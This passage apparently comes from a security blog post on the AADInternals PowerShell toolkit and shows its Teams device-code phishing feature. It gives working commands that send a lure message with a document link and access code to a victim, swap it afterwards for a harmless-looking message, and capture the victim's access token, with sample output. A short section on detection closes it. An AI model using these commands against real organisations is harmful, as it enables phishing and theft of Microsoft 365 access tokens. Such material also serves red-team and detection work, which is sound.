 ## Teams

AADInternals supports sending phishing messages as Teams chat messages.

**Note!** After the victim has "authenticated" and the tokens are received, AADInternals will replace the original message. This message can be provided with -CleanMessage parameter. 

The default clean message is:
```
'<div>Hi!<br/>This is a message sent to you by someone who is using <a href="https://o365blog.com/aadinternals">AADInternals</a> phishing function. <br/>If you are seeing this, <b>someone has stolen your identity!</b>.</div>'
```
![Teams clean message](/images/posts/phishing_13.png)

The following example sends a phishing email using customised messages. The tokens are saved to the cache.
{{< highlight powershell >}}
# Get access token for Azure Core Management
Get-AADIntAccessTokenForAzureCoreManagement -SaveToCache

# Create the custom messages
$message = '<html>Hi!<br/>Here is the link to the <a href="{1}">document</a>. Use the following code to access: <b>{0}</b>.</html>'
$cleanMessage = '<html>Hi!<br/>Have a nice weekend.</html>'

# Send a teams message to the recipient using customised messages
Invoke-AADPhishing -Recipients "wvictim@company.com" -Teams -Message $message -CleanMessage $cleanMessage -SaveToCache
{{< /highlight>}}

```
Code: CKDZ2BURF
Teams message sent to: wvictim@company.com. Message id: 132473151989090816
...
Received access token for william.victim@company.com
```
**The following video shows how to use AADInternals for Teams phishing.**

<iframe width="560" height="315" src="https://www.youtube.com/embed/FX20qa58TEQ" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

# Detecting

First of all, from the Azure AD point-of-view the login takes place where the authentication was **initiated**. This is a very important point to understand.
This means that in the signing log, the login was performed from the **attacker location and device**, not from user's. 
